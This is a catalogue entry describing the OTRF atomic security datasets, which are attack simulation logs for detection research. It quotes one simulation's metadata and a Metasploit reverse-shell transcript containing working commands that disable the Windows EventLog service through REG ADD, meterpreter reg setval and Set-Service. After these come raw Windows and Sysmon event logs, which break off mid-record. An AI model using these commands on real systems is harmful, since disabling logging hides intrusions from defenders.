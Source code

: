 ```yaml
---
title: OTFR Atomic Security Datasets
---
```


- [Overview](#overview)
- [Environment](#environment)
- [Activity](#activity)
- [Contained Data](#contained-data)
- [Links](#links)
- [Related Entries](#related-entries)
- [Data Examples](#data-examples)

| <!-- -->                 | <!-- -->                                                                      |
|--------------------------|-------------------------------------------------------------------------------|
| **Network Log Source**   | pcaps, AWS CloudTrail                                               |
| **Network Logs Labeled** | "Yes", in the sense that only attack traffic is provided                      |
| **Host Log Source**      | Windows events, linux auditd                                                  |
| **Host Logs Labeled**    | "Yes", in the sense that only attack events are provided                      |
|                          |                                                                               |
| **Overall Setting**      | Single OS                                                                     |
| **OS Types**             | Windows<br/>Linux                                                             |
| **Number of Machines**   | n/a                                                                           |
| **Total Runtime**        | n/a                                                                           |
| **Year of Collection**   | 2019-2022                                                                     |
| **Attack Categories**    | Most of MITRE's Att&ck matrix                                                 |
| **User Emulation**       | No                                                                            |
|                          |                                                                               |
| **Packed Size**          | 125 MB                                                                        |
| **Unpacked Size**        | n/a                                                                           |
| **Download Link**        | [goto](https://github.com/OTRF/Security-Datasets/tree/master/datasets/atomic) |

***

### Overview

This is a subset of the Security Datasets Collection focusing on small datasets, each originating from a single attack
associated with a certain MITRE tactic and technique.
Due to their small granularity, all of these have been combined into a single entry here in this database.

### Environment

Details are provided per attack, though not all attacks provide the same amount of information.

### Activity

Details are provided per attack, though not all attacks provide the same amount of information.

### Contained Data

Content obviously differs between scenarios, and is generally divided into Windows, Linux, and AWS, though the vast
majority of data stems from Windows simulations.
For each of these groups, datasets are further divided depending on their corresponding tactic (execution, defense
evasion, etc.).
Finally, for each simulation, the following files exist

- A `yml` metadata file containing various information like attack and setup description
- Host and/or network log files, depending on scenario
    - Host logs come in the form of Windows events or linux audit logs as `.json` or `.log`, respectively
    - Network logs come in the form of packet captures or AWS CloudTrail logs as `.cap` or `.json`, respectively

It is not recommended to look through the metadata directly using the YAML file, the accompanying website picks this
information up and displays it in a nicer way (see example data below).
While the structure is consistent, the information that is actually presented is not - some for example describe the
specific victim and attacker OS used, others just don't.
None go into detail regarding any labeling, presumably expecting all logs to be considered malicious.

### Links

- [Homepage](https://securitydatasets.com/introduction.html)
- [GitHub](https://github.com/OTRF/Security-Datasets/tree/master/datasets/atomic)
- [AWS Datasets](https://securitydatasets.com/notebooks/atomic/aws/intro.html)
- [Linux Datasets](https://securitydatasets.com/notebooks/atomic/linux/intro.html)
- [Windows Datasets](https://securitydatasets.com/notebooks/atomic/windows/intro.html)

### Related Entries

- [OTFR Security Datasets](../collections/security_datasets.md)

### Data Examples

Metadata for the scenario "Stopping Event Log Service via Modification of Start Up Type" (
see [webpage](https://securitydatasets.com/notebooks/atomic/windows/defense_evasion/SDWIN-220708104215.html)).
Taken from `datasets/atomic/_metadata/SDWIN-220708104215.yaml`.

```yml
title: Stopping Event Log Service via Modification of Start Up Type
id: SDWIN-220708104215
contributors:
- Jose Rodriguez @Cyb3rPandaH
creation_date: 2022/07/08
modification_date: 2022/08/04
platform:
- Windows
type: atomic
tags:
- powershell
- reg
- cmd
- eventlog
description: After getting a shell with elevated privileges on the target, we modified the start up type for the EventLog service to `Disabled`. After the modification, we need to restart our system to make the EventLog service unavailable (Disabled). This data set contains only before-reboot data of our simulation. Even though after-reboot data is not part of the dataset, our attempt to disable the EventLog service was successful during the simulation. We have simulated this attack using 3 different procedures REG command via cmd.exe, REG meterpreter command (Metasploit), and the PowerShell module (Metasploit). This dataset was generated using a Windows 10 Pro Evaluation edition (Version:1903,OS Build:18362.30) and Kali Linux (Version:2022.2).
attack_mappings:
  - technique: T1562
    sub-technique: "002"
    tactics:
      - TA0005
notebooks:
files:
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/psh_disable_eventlog_service_startuptype_modification.zip
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/reg_disable_eventlog_service_startuptype_modification_via_registry.zip
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/cmd_disable_eventlog_service_startuptype_modification_via_registry.zip
simulation:
  environment: Lab VM
  tools:
    - type: Manual
      name: cmd
      module: cmd
      script: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmd
    - type: Manual
      name: Metasploit
      module: reg
      script: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/base/sessions/command_shell.rb
    - type: Manual
      name: Metasploit
      module: powershell
      script: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/post/windows/powershell.rb
  permissions_required:
    - Administrator
  adversary_view: |-
    **** Using reg command via cmd.exe:
    
    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: jhdxsqpv) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 20 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 11:20:26 -0400 

    meterpreter > shell 
    Process 7728 created. 
    Channel 1 created. 
    Microsoft Windows [Version 10.0.18362.30] 
    (c) 2019 Microsoft Corporation. All rights reserved. 
    C:\Users\IT01-Pedro\Downloads>REG ADD HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog /t REG_DWORD /v Start /d 4
    REG ADD HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog /t REG_DWORD /v Start /d 4 
    Value Start exists, overwrite(Yes/No)? yes 
    The operation completed successfully. 
    C:\Users\IT01-Pedro\Downloads>

    **** Using reg meterpreter command:
    
    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: r64afjpx) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 19 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 10:50:58 -0400 

    meterpreter > reg setval -k 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog' -v 'Start' -t 'REG_DWORD' -d 4 
    Successfully set Start of REG_DWORD. 
    meterpreter >

    **** Using PowerShell module:

    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: bgwdtwdi) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 21 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 11:36:38 -0400 

    meterpreter > load powershell 
    Loading extension powershell...Success. 
    meterpreter > powershell_execute "Set-Service -Name EventLog -StartUpType Disabled" 
    [+] Command execution completed: 
    meterpreter >
references:
- https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/set-service?view=powershell-7.2
- https://www.offensive-security.com/metasploit-unleashed/interacting-registry/
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
```

Snippet of Windows event logs corresponding to the entry above, taken
from `datasets/atomic/windows/defense_evasion/host /psh_disable_eventlog_service_startuptype_modification.json`.

```json
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:04.983Z","@timestamp":"2022-08-04T08:37:04.983Z","EventID":4663,"Message":"An attempt was made to access an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\\{2a45d52e-bbf3-4843-8e18-b356ed5f6a65}\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tAccesses:\t\tSet key value\r\n\t\t\t\t\r\n\tAccess Mask:\t\t0x2","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\\{2a45d52e-bbf3-4843-8e18-b356ed5f6a65}","HandleId":"0x274","AccessList":"%%4433\n\t\t\t\t","AccessMask":"0x2","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:04.984Z","@timestamp":"2022-08-04T08:37:04.984Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x274\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x274","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4690,"Message":"An attempt was made to duplicate a handle to an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nSource Handle Information:\r\n\tSource Handle ID:\t0x274\r\n\tSource Process ID:\t0x4c4\r\n\r\nNew Handle Information:\r\n\tTarget Handle ID:\t0x35b8\r\n\tTarget Process ID:\t0x4","Task":"12807","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","SourceHandleId":"0x274","SourceProcessId":"0x4c4","TargetHandleId":"0x35b8","TargetProcessId":"0x4"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x35b8\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x35b8","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4656,"Message":"A handle to an object was requested.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tTransaction ID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\tAccesses:\t\tREAD_CONTROL\r\n\t\t\t\tQuery key value\r\n\t\t\t\tSet key value\r\n\t\t\t\tCreate sub-key\r\n\t\t\t\tEnumerate sub-keys\r\n\t\t\t\tNotify about changes to keys\r\n\t\t\t\t\r\n\tAccess Reasons:\t\t-\r\n\tAccess Mask:\t\t0x2001F\r\n\tPrivileges Used for Access Check:\t-\r\n\tRestricted SID Count:\t0","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application","HandleId":"0x274","TransactionId":"{00000000-0000-0000-0000-000000000000}","AccessList":"%%1538\n\t\t\t\t%%4432\n\t\t\t\t%%4433\n\t\t\t\t%%4434\n\t\t\t\t%%4435\n\t\t\t\t%%4436\n\t\t\t\t","AccessReason":"-","AccessMask":"0x2001f","PrivilegeList":"-","RestrictedSidCount":"0","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4663,"Message":"An attempt was made to access an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tAccesses:\t\tSet key value\r\n\t\t\t\t\r\n\tAccess Mask:\t\t0x2","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application","HandleId":"0x274","AccessList":"%%4433\n\t\t\t\t","AccessMask":"0x2","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.008Z","@timestamp":"2022-08-04T08:37:05.008Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x274\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x274","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.013Z","@timestamp":"2022-08-04T08:37:05.013Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0xd30\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0xd30","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:11.530Z","@timestamp":"2022-08-04T08:37:11.530Z","EventID":4689,"Message":"A process has exited.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-21-968647429-258479840-2507984072-1002\r\n\tAccount Name:\t\tIT01-Pedro\r\n\tAccount Domain:\t\tPEDRO01\r\n\tLogon ID:\t\t0x3673C\r\n\r\nProcess Information:\r\n\tProcess ID:\t0xa1c\r\n\tProcess Name:\tC:\\Windows\\System32\\backgroundTaskHost.exe\r\n\tExit Status:\t0x1","Task":"13313","SubjectUserSid":"S-1-5-21-968647429-258479840-2507984072-1002","SubjectUserName":"IT01-Pedro","SubjectDomainName":"PEDRO01","SubjectLogonId":"0x3673c","Status":"0x1","ProcessId":"0xa1c","ProcessName":"C:\\Windows\\System32\\backgroundTaskHost.exe"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:14.593Z","@timestamp":"2022-08-04T08:36:14.593Z","EventID":26,"Message":"File Delete logged:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:14.587\r\nProcessGuid: {625b42a0-4109-62e9-2600-000000000900}\r\nProcessId: 1408\r\nUser: NT AUTHORITY\\SYSTEM\r\nImage: C:\\Windows\\system32\\svchost.exe\r\nTargetFilename: C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf\r\nHashes: SHA1=0E60B9DC43FD335F50E163573D8E700897184CC2,MD5=40F3175D55D34290D443EAD9F7BC763F,SHA256=717DB59D8D9F3606F839003A8B22750B80C39E4BF56E97D189839A34CEEDE49C,IMPHASH=00000000000000000000000000000000\r\nIsExecutable: false","Task":"26","RuleName":"-","UtcTime":"2022-08-04 15:36:14.587","ProcessGuid":"{625b42a0-4109-62e9-2600-000000000900}","ProcessId":"1408","User":"NT AUTHORITY\\SYSTEM","Image":"C:\\Windows\\system32\\svchost.exe","TargetFilename":"C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf","Hashes":"SHA1=0E60B9DC43FD335F50E163573D8E700897184CC2,MD5=40F3175D55D34290D443EAD9F7BC763F,SHA256=717DB59D8D9F3606F839003A8B22750B80C39E4BF56E97D189839A34CEEDE49C,IMPHASH=00000000000000000000000000000000","IsExecutable":"false"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:14.594Z","@timestamp":"2022-08-04T08:36:14.594Z","EventID":11,"Message":"File created:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:14.587\r\nProcessGuid: {625b42a0-4109-62e9-2600-000000000900}\r\nProcessId: 1408\r\nImage: C:\\Windows\\system32\\svchost.exe\r\nTargetFilename: C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf\r\nCreationUtcTime: 2022-07-29 05:08:44.061\r\nUser: NT AUTHORITY\\SYSTEM","Task":"11","RuleName":"-","UtcTime":"2022-08-04 15:36:14.587","ProcessGuid":"{625b42a0-4109-62e9-2600-000000000900}","ProcessId":"1408","Image":"C:\\Windows\\system32\\svchost.exe","TargetFilename":"C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf","CreationUtcTime":"2022-07-29 05:08:44.061","User":"NT AUTHORITY\\SYSTEM"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:15.184Z","@timestamp":"2022-08-04T08:36:15.184Z","EventID":10,"Message":"Process accessed:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:15.091\r\nSourceProcessGUID: {625b42a0-6b35-62e9-1200-000000000900}\r\nSourceProcessId: 888\r\nSourceThreadId: 3696\r\nSourceImage: C:\\Windows\\system32\\svchost.exe\r\nTargetProcessGUID: {625b42a0-4111-62e9-4600-000000000900}\r\nTargetProcessId: 2696\r\nTargetImage: C:\\Windows\\System32\\svchost.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+10225|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\LOCAL SERVICE","Task":"10","RuleName":"-","UtcTime":"2022-08-04 15:36:15.091","SourceProcessGUID":"{625b42a0-6b35-62e9-1200-000000000900}","SourceProcessId":"888","SourceThreadId":"3696","SourceImage":"C:\\Windows\\system32\\svchost.exe","TargetProcessGUID":"{625b42a0-4111-62e9-4600-000000000900}","TargetProcessId":"2696","TargetImage":"C:\\Windows\\System32\\svchost.exe","GrantedAccess":"0x1000","CallTrace":"C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+10225|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71","SourceUser":"NT AUTHORITY\\SYSTEM","TargetUser":"NT AUTHORITY\\LOCAL SERVICE"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:15.184Z","@timestamp":"2022-08-04T08:36:15.184Z","EventID":10,"Message":"Process accessed:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:15.091\r\nSourceProcessGUID: {625b42a0-6b35-62e9-1200-000000000900}\r\nSourceProcessId: 888\r\nSourceThreadId: 3696\r\nSourceImage: C:\\Windows\\system32\\svchost.exe\r\nTargetProcessGUID: {625b42a0-4111-62e9-4600-000000000900}\r\nTargetProcessId: 2696\r\nTargetImage: C:\\Windows\\System32\\svchost.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+108a0|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\LOCAL SERVICE","Task":"10","RuleName":"-","UtcTime":"2022-08-04 